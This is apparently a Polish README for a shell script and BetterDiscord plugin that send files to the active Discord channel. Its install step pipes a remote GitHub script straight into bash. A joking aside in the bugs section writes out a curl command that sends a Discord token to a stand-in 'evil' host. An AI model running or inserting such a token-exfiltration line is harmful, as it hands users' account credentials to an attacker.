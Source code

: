 # DiscordFileFromCLI
Skrypt powłoki umożliwiający wysyłanie plików na aktualnie wybrany kanał w aplikacji discorda.

Aktualnie wspierany jest tylko Linux i stabilna gałąź aplikacji discorda. 

# Instalacja
Jest skrypt instalacyjny, użycie tego polecenia powinno zainstalować skrypt oraz plugin.
```bash
bash -c "$(curl https://raw.githubusercontent.com/koliwbr/DiscordFileFromCLI/master/install.sh -s)" 
```
W razie problemów ręczna instalacja polega na dodaniu [sendtodiscord.sh](https://github.com/koliwbr/DiscordFileFromCLI/blob/master/sendtodiscord.sh) do PATH i zainstalowniu [FileFromCLI.plugin.js](https://github.com/koliwbr/DiscordFileFromCLI/blob/master/FileFromCLI.plugin.js) jako wtyczki do BeterDiscord

# Błędy
Jak ktoś (jeśli ktoś to czyta wogóle) znajdzie jakąś literówkę / błąd logiczny / lukę bezpieczeństwa - to sory, napisz mi na discordzie to to poprawię jak znajdę chwilę. Albo można wyklikać tu na GH, jeśli to nie będzie nic w stylu `curl -so /dev/null http://zło.kropka/hahakradnetoken/${dctoken}/` to raczej będzie git. 

